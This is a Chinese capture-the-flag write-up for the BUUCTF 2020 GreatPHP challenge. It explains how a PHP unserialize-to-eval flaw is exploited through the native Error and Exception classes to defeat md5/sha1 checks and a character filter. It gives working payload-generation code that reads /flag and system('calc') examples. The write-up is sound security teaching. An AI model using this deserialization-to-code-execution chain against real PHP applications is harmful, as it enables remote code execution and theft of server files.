 # PHP原生类利用

原题戳这👉<a href="https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202020]Greatphp">BUUCTF 极客大挑战2020 GreatPHP</a>

```php
<?php
error_reporting(0);
class Test {
    public $a;
    public $b;

    public function __wakeup(){
        if( ($this->a != $this->b) && (md5($this->a) === md5($this->b)) && (sha1($this->a)=== sha1($this->b)) ){
            if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
                eval($this->syc);
            } else {
                die("Try Hard !!");
            }

        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}
```

很明显的反序列化考题，但是过滤了`<?php`、`(`、`)`、`'`、`"`

要求`Test`类的两个属性不同，但其哈希值md5、sha1相等

常规思路是数组绕过md5、sha1检测

```php
<?php
$a = array(1);
$b = array(2);
echo (md5($a) === md5($b)) && (sha1($a)=== sha1($b)); // 1
```

但是当后面eval碰上数组时：

```php
<?php
$a = array("<?php system('calc')");
eval($a);
```

> Notice: Array to string conversion
> Parse error: syntax error, unexpected end of file, expecting '(' in xxx.php(3) : eval()'d code on line 1

可以看出数组被转为字符串，`echo $a;`输出`Array`
这就解释了`eval`的报错：缺少左括号，eval以为我们要执行`Array()`

所以我们要找一个类，满足如下要求：

1. 能够绕过md5、sha1检测
2. 存在`__toString`方法能够输出我们构造的恶意代码

这里就要用到了PHP的原生类：`Error`和`Exception`

![image-20221018160914553](../../images/image-20221018160914553.png)

可以看到输出了我们自定义的错误信息和行号

![image-20221018161114438](../../images/image-20221018161114438.png)

注意：`?><?php system('calc');?>`
`第一个?>`是为了闭合前面的`<?php Error: `  （`eval`会自动在参数前拼接`<?php`）
`第二个?>`是为了抛掉后面的错误信息
即：`Error: ?><?php system('calc');?> in E:\JetBrains\apps\PhpStorm\PhpCode\funny.php:2....`

接着看哈希的绕过
```php
<?php
class Test{
    public $a;
    public $b;

    public function __construct($a, $b){
        $this->a =$a;
        $this->b =$b;
    }
}
$payload = "test";
$a= new Error($payload, 1);$b= new Error($payload, 2); // 注意$a、$b放同一行，输出的错误行才能相同
$test = new Test($a, $b);
echo $test->a.PHP_EOL;
echo $test->b.PHP_EOL;
if( ($test->a != $test->b) && (md5($test->a) === md5($test->b)) && (sha1($test->a)=== sha1($test->b)) ){
    echo 'Bingo!!!';  // Bingo!!!
}
```

![image-20221018162420550](../../images/image-20221018162420550.png)

md5、sha1会触发`Error`类的`__toString`方法，我们可以看到输出的`$a`、`$b`相同
而我们在`new Error()`时，`$a、$b`第二个参数不同，因此`$a != $b`

到这里绕过了第一层限制，接着看`preg_match`
过滤了`<?php`、`(`、`)`、`'`、`"`

可以用短标签`<?= =>`代替`<?php`
过滤了括号，我们只能使用不需要括号的函数（其实叫PHP的语言结构）

> echo
>
> print
>
> die
>
> include，注意，include_once()是函数
>
> require，注意，require_once()是函数

我们尝试用`include`来包含`/flag`，过滤了引号，我们不能直接`include '/flag'`

PHP对于未定义的常量，会假设它是字面值的字符串

如下：
```php
<?php
echo php666;
// Warning: Use of undefined constant php666 - assumed 'php666' 
// (this will throw an Error in a future version of PHP)
```

但我们要包含根目录下的flag，`/`是关键字符，这里用取反绕过

```php
<?php
$a = ~'/flag';
echo urlencode($a);
// %D0%99%93%9E%98
// $payload = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
```

```php
<?php
class Test{
    public $a;
    public $b;

    public function __construct($a, $b){
        $this->a =$a;
        $this->b =$b;
    }
}
$payload = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
$a= new Error($payload, 1);$b= new Error($payload, 2);
$test = new Test($a, $b);
echo urlencode(serialize($test));
```

注：上面的`Error`换成`Exception`效果相同。

